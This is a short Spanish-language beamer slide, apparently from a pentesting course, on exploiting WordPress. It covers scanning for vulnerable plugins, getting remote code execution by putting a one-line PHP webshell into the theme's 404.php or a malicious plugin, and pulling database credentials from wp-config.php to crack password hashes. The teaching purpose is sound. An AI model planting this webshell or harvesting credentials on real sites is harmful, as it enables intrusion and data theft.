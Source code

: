 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{WordPress --- Explotación y RCE}
\small
  \begin{itemize}
  \item Hacking WordPress
  \item Plugins/temas vulnerables
  \item searchsploit wordpress \textless{}plugin\textgreater{} $\cdot$ wpscan -e vp
  \item Suelen dar SQLi, LFI, subida arbitraria o auth bypass.
  \item RCE como admin (desde el panel)
  \item 1) Theme Editor $\rightarrow$ editar 404.php con una webshell:
  \item /wp-content/themes/\textless{}tema\textgreater{}/404.php?c=id
  \item 2) Subir un plugin .zip malicioso con webshell.
  \item Credenciales y base de datos
  \item wp-config.php $\rightarrow$ DB\_USER / DB\_PASSWORD / DB\_NAME
  \item $\rightarrow$ MySQL $\rightarrow$ tabla wp\_users $\rightarrow$ hashes phpass $\rightarrow$ john.
  \item PortSwigger / HackTricks --- WordPress exploitation
  \item Admin del panel
  \item (creds o brute force)
  \item Appearance $\rightarrow$ Theme Editor
  \item editar 404.php
  \item \textless{}?php system(\$\_GET[c]); ?\textgreater{}
  \item $\rightarrow$ webshell = RCE
  \end{itemize}
\end{frame}
\end{document}
